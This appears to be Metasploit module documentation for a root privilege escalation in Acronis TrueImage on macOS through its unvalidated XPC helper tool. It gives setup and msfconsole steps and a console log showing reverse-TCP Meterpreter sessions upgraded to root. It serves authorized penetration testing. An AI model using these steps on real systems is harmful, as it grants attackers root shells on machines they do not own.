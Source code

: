 ## Vulnerable Application

Acronis TrueImage versions 2019 update 1 through 2021 update 1
are vulnerable to privilege escalation. The `com.acronis.trueimagehelper`
helper tool does not perform any validation on connecting clients,
which gives arbitrary clients the ability to execute functions provided
by the helper tool with `root` privileges.

This module connects to the helper tool and executes the payload via
the helper tool's `executeProcess:arguments:caller:withReply:;` function,
granting a session as `root`.

### Installation Instructions

Run through the installer with all of the defaults. Once the application
is installed, open the application and allow the privileges requested.
That should be enough for the helper tool to be placed in the
`/Library/PrivilegedHelperTools` directory. You should not have to set up
a trial to get the exploit to work.

*Note* The 2021 version of Acronis TrueImage comes with an uninstaller
that will remove the helper tool if used. However, if the software is
uninstalled via the drag-and-drop method, the helper tool will be left behind.
The 2020 version does not appear to come with an uninstaller, so the helper tool
will need to be manually deleted from `/Library/PrivilegedHelperTools` when
uninstalling the software.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a meterpreter or shell session on the target
4. Do: `use exploit/osx/local/acronis_trueimage_xpc_privesc`
5. Do: `set SESSION <session_no>`
6. Do: `run`
7. You should get a new session as root.

## Options

### WRITABLE_DIR

Directory to use to write exploit files to

### SHELL

Default shell to use for exploit

### COMPILE

Determines if exploit will be compiled on the target or if a pre-compiled exploit
will be used.

## Scenarios

### Acronis TrueImage Build 22510 on macOS 12.5

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.204:53610) at 2022-11-15 08:44:36 -0600

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/osx/local/acronis_trueimage_xpc_privesc
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set session 1
session => 1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lport 5555
lport => 5555
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set verbose true
verbose => true
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > run

[*] Started reverse TCP handler on 192.168.140.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable build 22510 found
[*] Attempting to write payload at /tmp/FHQUXzNR
[*] Writing '/tmp/FHQUXzNR' (17204 bytes) ...
[+] Successfully wrote payload at /tmp/FHQUXzNR
[*] Successfully compiled iZMwhN.m...Now executing payload
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[+] Deleted /tmp/FHQUXzNR
[+] Deleted /tmp/iZMwhN.m
[+] Deleted /tmp/iZMwhN
[*] Meterpreter session 2 opened (192.168.140.1:5555 -> 192.168.140.204:53763) at 2022-11-15 08:45:13 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```
